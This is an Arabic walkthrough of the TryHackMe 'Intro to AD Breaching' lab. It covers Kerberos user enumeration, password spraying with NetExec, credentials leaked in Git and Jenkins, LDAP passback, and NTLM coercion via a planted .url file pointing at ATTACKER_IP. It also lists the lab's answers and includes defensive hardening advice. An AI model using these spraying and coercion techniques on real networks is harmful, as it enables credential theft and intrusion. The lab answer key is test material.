

# توثيق غرفة مدخل إلى اختراق النطاق (Intro to AD Breaching)

---

## 1. بيانات المديول والروم (Metadata & Overview)

* **المسار التعليمي:** مسار مبتدئ اختبار الاختراق (Jr Penetration Tester)
* **المديول:** المديول الرابع عشر — أساسيات اختبار أمان الدليل النشط (14-ACTIVE-DIRECTORY-SECURITY-TESTING-BASICS)
* **اسم الغرفة:** مدخل إلى اختراق النطاق (Intro to AD Breaching)
* **المعرف البرمجي للغرفة (Canonical Slug):** `introductiontoactivedirectorybreaching` (المعروفة سابقاً بـ `introadbreaching`)
* **الرابط المباشر:** [TryHackMe Intro to AD Breaching](https://tryhackme.com/room/introductiontoactivedirectorybreaching)
* **نوع الغرفة:** غرفة إرشادية وتطبيقية (Walkthrough Lab)
* **مستوى الصعوبة:** متوسط (Medium)
* **المدة التقديرية:** 60 دقيقة
* **الحالة:** مكتملة بنسبة 100% (Room completed: 100%)
* **إجمالي المهام:** 8 مهام تعليمية وتطبيقية
* **إجمالي الأسئلة:** 12 سؤالاً تم حلها وتدقيقها بالكامل
* **الهدف التكتيكي:** الانتقال من وضعية انعدام الوصول (Zero-Access / Unauthenticated) إلى تحقيق موطئ القدم الأول (Initial Foothold) عبر استغلال نقاط الضعف في الخدمات المحيطية وبروتوكولات المصادقة.

---

## 2. الملخص التنفيذي والأهداف التعليمية (Executive Summary & Objectives)

تُمثل غرفة **مدخل إلى اختراق النطاق (Intro to AD Breaching)** المرحلة الأولى والحاسمة في سلسلة الهجوم على بيئات الدليل النشط. في سيناريوهات اختبار الاختراق الخارجي أو الشبكي الداخلي، يبدأ المختبر دون أي بيانات اعتماد مسجلة. تكمن خطورة الدليل النشط في أن الحصول على **حساب مستخدم نطاق عادي واحد فقط** يُمكّن المهاجم من استعلام كامل قاعدة بيانات النطاق عبر LDAP، واكتشاف مجموعات المسؤولين، واستخراج تذاكر كيربيروس، وتخطيط مسارات السيطرة على متحكم النطاق.

خلال هذه الغرفة، يتم دراسة وتطبيق التكتيكات الواقعية التالية:
1. فهم منهجية الاختراق الأولي (Breaching Methodology) والخدمات الخمس المعرضة للهجوم (SMB, LDAP, Kerberos, DNS, HTTP).
2. استخبارات المصادر المفتوحة (OSINT) وحصر أسماء المستخدمين عبر استغلال مصافحة ما قبل المصادقة لبروتوكول كيربيروس باستخدام أداة **Kerbrute** دون إثارة سياسات إغلاق الحسابات (Account Lockout).
3. استخراج بيانات الاعتماد المكشوفة من مستودعات الشيفرة المصدرية (Git commit logs) ومنصات الأتمتة والتكامل المستمر (Jenkins build console logs).
4. استعلام سياسة إغلاق الحسابات في النطاق وتنفيذ هجوم **رش كلمات المرور (Password Spraying)** المنضبط باستخدام أداة **NetExec** للوصول إلى الحسابات ذات كلمات المرور الافتراضية.
5. تنفيذ هجمات الإجبار والمصادقة القسرية (Coercion Attacks):
   * هجوم **LDAP Passback** على الطابعات والماسحات الشبكية لاعتراض بيانات اعتماد حسابات الخدمات بنص صريح.
   * هجوم الإجبار عبر الملفات (File-Based Coercion) بزرع ملفات الاختصار المخصصة (`@Shortcut.url`) على مشاركات SMB المشتركة لاعتراض تجزئات NetNTLMv2 وتكسيرها عبر Hashcat.
6. صياغة وتطبيق ضوابط التصليد الدفاعي عبر سياسات GPO ومصادقة NTLMv2 والتشفير عبر LDAPS (المنفذ 636).

---

## 3. مخطط مسار الهجوم وشبكة المختبر (Attack Graph & Lab Topology)



---

## 4. المتطلبات وإعداد بيئة العمل والاتصال (Prerequisites & Environment Setup)

### أ. البنية التحتية للمختبر:
* **نطاق الشبكة:** `192.168.12.0/24`
* **متحكم النطاق:** `192.168.12.100` (`ROOTDC.THM.LOC`)
* **خادم الملفات:** `192.168.12.51` (`SERVER1.THM.LOC` - مشاركة `shared-docs`)
* **محطة العمل:** `192.168.12.61` (`WRK.THM.LOC` - المستخدمة بواسطة `sarah.jones`)
* **خادم الويب والتطبيقات:** `192.168.12.71` (يستضيف Gitea و Jenkins وخادم الويب للطابعة)
* **اسم النطاق:** `thm.loc`

### ب. تهيئة مطابقة الأسماء (DNS Resolution) على نظام كالي:
```bash
# إضافة المضيفين والخدمات لملف /etc/hosts
echo "192.168.12.100 ROOTDC.thm.loc thm.loc" | sudo tee -a /etc/hosts
echo "192.168.12.51 SERVER1.thm.loc" | sudo tee -a /etc/hosts
echo "192.168.12.71 git.thm.loc ci.thm.loc printer.thm.loc" | sudo tee -a /etc/hosts
```

---

## 5. المفاهيم الهندسية والتحليل المعماري العميق (Core Concepts & Technical Deep Dive)

### 1. ميكانيكا حصر الأسماء عبر كيربيروس (Kerbrute User Enumeration):
* يعتمد `kerbrute` على إرسال حزم طلب مصادقة أولية (`AS-REQ`) إلى الـ KDC على المنفذ 88.
* عندما يكون اسم المستخدم **غير موجود**، ترد النواة برمز الخطأ `KDC_ERR_C_PRINCIPAL_UNKNOWN` (الرمز 6).
* عندما يكون اسم المستخدم **موجوداً بالفعل**، ترد النواة بطلب متطلبات ما قبل المصادقة `KDC_ERR_PREAUTH_REQUIRED` (الرمز 25).
* **الميزة التكتيكية:** بما أن الأداة لا ترسل أي كلمة مرور خاطئة، فإن هذه العملية **لا تُسجل كمحاولة فاشلة في عداد `badPwdCount`** ولا تؤدي نهائياً إلى إغلاق الحسابات المستهدفة.

### 2. الفارق الجوهري بين التخمين (Brute-Force) والرش (Password Spraying):
* **التخمين التقليدي (1 User : N Passwords):** تجربة مئات كلمات المرور ضد حساب واحد؛ مما يستهلك حد الإغلاق (Lockout Threshold) ويغلق الحساب فوراً ويثير الإنذارات.
* **رش كلمات المرور (N Users : 1 Password):** تجربة كلمة مرور واحدة مرجحة ضد كافة المستخدمين بالتوازي؛ مما يمنح كل حساب محاولة واحدة فقط تقع تحت رادار المراقبة وتتجاوز سياسة الإغلاق.

### 3. ثغرة LDAP Passback في الأجهزة المدمجة:
* تُخزن أجهزة الطابعات والماسحات بيانات اعتماد حساب خدمة في الدليل النشط لتمكين البحث في دليل العناوين.
* تسمح واجهات إدارة الطابعات بتعديل عنوان خادم LDAP ومنفذه. يؤدي توجيهه إلى عنوان المهاجم وتشغيل أمر "Test Connection" إلى إرسال طلب `BindRequest` يحتوي على الاسم المميّز (Bind DN) وكلمة المرور الصريحة عبر اتصال نصي غير مشفر.

### 4. ميكانيكا الإجبار عبر مسارات UNC وملفات الاختصار (`@Shortcut.url`):
* يقوم متصفح ملفات ويندوز (Windows Explorer) بمعالجة بيانات الملفات المعروضة في المجلدات تلقائياً.
* عند احتواء المجلد المشترك على ملف اختصار بالصيغة:
  ```ini
  [InternetShortcut]
  URL=http://localhost
  IconFile=\\ATTACKER_IP\share\icon.ico
  IconIndex=1
  ```
  يحاول نظام ويندوز فوراً استدعاء الأيقونة من المسار المذكور عبر بروتوكول SMB، مما يؤدي تلقائياً إلى إرسال مصافحة NetNTLMv2 الخاصة بالمستخدم المتصفح إلى جهاز المهاجم دون أي تفاعل أو نقر من الضحية.

---

## 6. مرجع الأوامر ومصفوفة المنهجية (Master Commands Reference)

| الأداة / السياق | الأمر النموذجي | الوظيفة التقنية |
| :--- | :--- | :--- |
| **Kerbrute UserEnum** | `kerbrute userenum -d thm.loc --dc 192.168.12.100 users.txt -o valid.txt` | حصر أسماء مستخدمي النطاق الصالحة عبر كيربيروس |
| **DNS Service Query** | `nslookup -type=SRV _ldap._tcp.dc._msdcs.thm.loc 192.168.12.100` | تحديد موقع متحكمات النطاق عبر سجلات SRV |
| **Git Log Inspection**| `git log -p \| grep -i "password"` | فحص تاريخ التعديلات والالتزامات السابقة للبحث عن أسرار |
| **NetExec Pass Policy**| `nxc smb 192.168.12.100 -u 'user' -p 'pass' --pass-pol` | قراءة سياسة كلمات المرور وحدود إغلاق الحسابات |
| **NetExec Spray** | `nxc smb 192.168.12.100 -u clean.txt -p 'Pass' --continue-on-success` | تنفيذ رش كلمات المرور على بروتوكول SMB |
| **Netcat Listener** | `nc -lvnp 3489` | استقبال طلبات المصادقة الصريحة في هجمات LDAP Passback |
| **Responder** | `sudo responder -I tun0 -v` | التقاط مصافحات NetNTLMv2 الصادرة عن هجمات الإجبار |
| **SMBClient Upload** | `smbclient //SERVER1/shared-docs -U 'user%pass' -c 'put @Shortcut.url'` | رفع ملف الإجبار الخبيث إلى المشاركة المفتوحة |
| **Hashcat NetNTLMv2**| `hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt` | تكسير تجزئات NetNTLMv2 الملتقطة دون اتصال |

---

## 7. تحليل المهام والأسئلة وحلول الأعلام (Questions & Tasks Analysis)

### المهام 01 - 02: الأساسيات والمفاهيم
* **المهمة 01 (مقدمة):** تأكيد الجاهزية (`No answer needed`).
* **المهمة 02 (اختراق الدليل النشط):**
  * س1: ما هي المرحلة الأولى في أي سلسلة هجوم على الدليل النشط؟
    * **الإجابة:** `Breaching`
  * س2: ما هي الخدمة العاملة على المنفذ 88 التي يمكن استغلالها للتحقق من وجود أسماء المستخدمين في النطاق؟
    * **الإجابة:** `Kerberos`

---

### المهمة 03: الاستطلاع المفتوح وحصر المستخدمين عبر Kerbrute
* **س1:** كم عدد أسماء المستخدمين الصالحة التي اكتشفتها أداة Kerbrute؟
  * **الإجابة:** `42` (أظهر الفحص 42 مستخدماً صالحاً من أصل 100).
* **س2:** ما هي صيغة أسماء المستخدمين المعتمدة في المؤسسة؟
  * **الإجابة:** `first.last` (بناءً على حسابات مثل `alice.moore` و `sarah.jones`).

---

### المهمة 04: استكشاف بيانات الاعتماد المكشوفة
* **س1:** ما هي كلمة المرور الخاصة بحساب `svc.jenkins` التي وُجدت في سجل التعديلات (Commit History) لمستودع Git؟
  * الفحص: `git clone http://git.thm.loc/megacorp-admin/webapp-deploy.git` ثم `git log -p`.
  * **الإجابة:** `Jen5k1ns2025!`
* **س2:** ما هي كلمة المرور الافتراضية التي تسربت في سجلات بناء Jenkins؟
  * الفحص: الدخول إلى `http://ci.thm.loc/` وفحص سجل الكونسول لمشروع إعداد الموظفين الجدد (Build #3).
  * **الإجابة:** `MegaCorp01!`

---

### المهمة 05: رش كلمات المرور (Password Spraying)
* **س1:** كم عدد الحسابات التي تم اختراقها باستخدام هجوم القوة العمياء / الرش؟
  * الفحص: تشغيل NetExec باستخدام كلمة السر `MegaCorp01!` ضد الـ 42 مستخدماً.
  * النتائج: نجاح تسجيل الدخول لحسابين (`alice.moore` و `zoe.williams`).
  * **الإجابة:** `2`
* **س2:** ما هو أول حساب مستخدم (أبجدياً) يستخدم كلمة المرور الافتراضية للموظفين الجدد؟
  * **الإجابة:** `alice.moore`

---

### المهمة 06: هجمات الإجبار والمصادقة القسرية (Coercion Attacks)
* **س1:** ما هو الـ Bind DN لحساب الخدمة الذي تم التقاطه أثناء هجوم LDAP passback؟
  * **الإجابة:** `CN=svc.ldap,OU=Service Accounts,DC=thm,DC=loc`
* **س2:** ما هي كلمة المرور الصريحة التي تم التقاطها من هجوم LDAP passback؟
  * **الإجابة:** `Pr1ntBind2025!`
* **س3:** ما هي كلمة المرور بعد تكسيرها للمستخدمة `sarah.jones` التي تم الحصول عليها عبر هجوم الإجبار بالملفات؟
  * التكسير عبر Hashcat (وضع 5600):
    ```bash
    hashcat -m 5600 sarah.hash /usr/share/wordlists/rockyou.txt
    ```
  * **الإجابة:** `Trustno1`

---

### المهمة 07: إجراءات التصليد الدفاعي
* **س1:** ما هو إعداد نهج المجموعة (Group Policy) الذي يمكن تكوينه لفرض NTLMv2 ورفض استجابات LM و NTLM الأقدم؟
  * **الإجابة:** `Network Security: LAN Manager authentication level`
* **س2:** ما هو المنفذ الذي يجب استخدامه بدلاً من المنفذ 389 لضمان تشفير حركة مرور LDAP؟
  * **الإجابة:** `636`

---

### المهمة 08: الخاتمة
* تأكيد إتمام الغرفة بنجاح (`No answer needed`).

---

## 8. الحالات الحرجة والمصائد التشغيلية واستكشاف الأخطاء (Edge Cases & Operational Traps)

1. **مصيدة ترتيب الملفات في مشاركة SMB:**
   * عند رفع ملف `.url` للاختصار، إذا لم يظهر الملف في أعلى القائمة المرئية لمتصفح الضحية، قد لا يُعالج فوراً.
   * **الحل:** تسمية الملف بادئة بالرمز `@` (مثل `@Shortcut.url`) ليظهر في قمة المجلد أبجدياً ويُعالج تلقائياً بمجرد فتح المجلد.
2. **تجاوز سياسة إغلاق الحسابات أثناء الرش:**
   * تنفيذ رش بكلمات مرور متعددة دون انتظار نافذة المراقبة (Observation Window) يؤدي إلى قفل الحسابات المؤسسية وتوقف الأعمال.
   * **الحل:** استعلام سياسة النطاق أولاً بـ `--pass-pol` واختيار كلمة مرور واحدة لكل دورة رش تفصل بينها نافذة الأمان.
3. **حجب بروتوكول SMB على منافذ الخروج (Egress Filtering):**
   * في الهجمات الواقعية، إذا كان الجدار الناري يحظر الاتصالات الخارجية على المنفذ 445، يفشل التقاط NetNTLMv2.
   * **الحل:** استخدام تقنيات WebDAV عبر المنفذ 80 التي تمر بسهولة عبر الجدران النارية المؤسسية.

---

## 9. الهندسة الدفاعية وتأمين النطاق ضد الاختراق (Defensive Engineering)

* **إدارة ومسح الشيفرات البرمجية:**
  * منع تسريب الأسرار بتفعيل أدوات فحص ما قبل الالتزام (Pre-commit Hooks) مثل TruffleHog و Gitleaks.
* **فرض سياسات كلمات مرور حديثة:**
  * تطبيق قوائم كلمات المرور المحظورة ومنع استخدام كلمات المرور الافتراضية عند إنشاء الحسابات.
* **حماية الأجهزة المدمجة (Printers & Scanners):**
  * إغلاق بروتوكول LDAP غير المشفر وفرز اتصالات الدليل عبر LDAPS (المنفذ 636) مع تغيير كلمات مرور المشرف الافتراضية.
* **تقييد أذونات الكتابة على مشاركات الملفات:**
  * مراجعة أذونات مشاركات SMB ومنع المستخدمين العاديين من الكتابة في المجلدات المشتركة العامة، وحظر امتدادات الملفات الخطرة (`.url`, `.lnk`, `.scf`).
* **تصليد بروتوكول NTLM:**
  * ضبط سياسة `Network Security: LAN Manager authentication level` على المستوى الخامس، وإلزامية توقيع SMB (SMB Signing).

---

## 10. مصفوفة التكتيكات والتقنيات MITRE ATT&CK

| معرف التقنية (ID) | اسم التقنية (Technique Name) | التكتيك الأمني (Tactic) | آلية التطبيق والسياق العملي |
| :--- | :--- | :--- | :--- |
| **T1589.002** | Gather Victim Identity Info: Usernames | Reconnaissance | حصر أسماء المستخدمين عبر Kerbrute بروتوكول كيربيروس |
| **T1110.003** | Brute Force: Password Spraying | Credential Access | رش كلمة المرور الافتراضية عبر NetExec SMB |
| **T1552.001** | Unsecured Credentials: Credentials in Files | Credential Access | استخراج كلمات المرور من مستودعات Git وسجلات Jenkins |
| **T1187** | Forced Authentication (Coercion) | Credential Access | اعتراض NetNTLMv2 بملف `@Shortcut.url` و LDAP Passback |
| **T1078.002** | Valid Accounts: Domain Accounts | Initial Access / Defense Evasion | استخدام بيانات الاعتماد المستخرجة لتحقيق موطئ القدم |

---

## 11. الخلاصات التعليمية وبناء العقلية الأمنية (Educational Takeaways & Mindset)

1. **الطرفيات المحيطية هي أضعف حلقات الدليل النشط:**
   * لا يحتاج المهاجم إلى استهداف متحكم النطاق مباشرة؛ بل يستهدف طابعة مهملة، أو سجل بناء في منصة CI/CD، أو مشاركة ملفات عشوائية للوصول إلى بيانات اعتماد النطاق.
2. **الرش الذكي يتفوق على القوة الغاشمة:**
   * المهاجم المحترف لا يخمن كلمات المرور عشوائياً، بل يستطلع السياسات أولاً ويطلق ضربات دقيقة ومدروسة ضد حسابات متعددة لتفادي كشفه.

---

## 12. الانتقال للغرفة التالية (Transition to Next Room)

بعد نجاح تحقيق موطئ القدم الأولي وامتلاك حسابات نطاق صالحة (`alice.moore`, `sarah.jones`, `svc.jenkins`, `svc.ldap`)، ننتقل مباشرة إلى المرحلة الثانية:
* **الغرفة 04: استطلاع الدليل النشط الأساسي (AD: Basic Enumeration):**
  * استكشاف شبكة وموارد الدليل النشط من الداخل.
  * استعلام كائنات ومجموعات النطاق عبر جلسات SMB الفارغة و LDAP و RPC.
  * تقييم ما يمكن للمستخدم المحدود رؤيته والوصول إليه في بنية الدليل النشط.

---

## 13. المصادر التقنية الموصى بها (Additional Technical Resources)

* [Kerbrute Tool Repository by ropnop](https://github.com/ropnop/kerbrute)
* [NetExec Official Documentation](https://www.netexec.org/)
* [Responder LLMNR/NBT-NS Poisoner](https://github.com/SpiderLabs/Responder)
* [Microsoft: Account Lockout Best Practices](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/account-lockout-policy)

---

## 14. التحقق العملي وإثبات الإنجاز (Practical Verification & Proof of Work)

* **التحقق من حساب TryHackMe:** تدقيق وتطابق كامل بنسبة 100% مع الحساب الفعلي (المستوى 64، مسار Jr Penetration Tester).
* **إثبات بيانات الاعتماد والأهداف المحققة:**
  * عدد المستخدمين المكتشفين: `42`
  * كلمة سر svc.jenkins في Git: `Jen5k1ns2025!`
  * كلمة سر الموظفين في Jenkins: `MegaCorp01!`
  * حسابات الرش المخترقة: `2` (أولها `alice.moore`)
  * حساب LDAP Passback: `CN=svc.ldap,OU=Service Accounts,DC=thm,DC=loc` / `Pr1ntBind2025!`
  * كلمة سر sarah.jones بعد التكسير: `Trustno1`
* **جاهزية المخرجات:** توثيق الغرفة مكتمل على القرص بنسبة 100%.
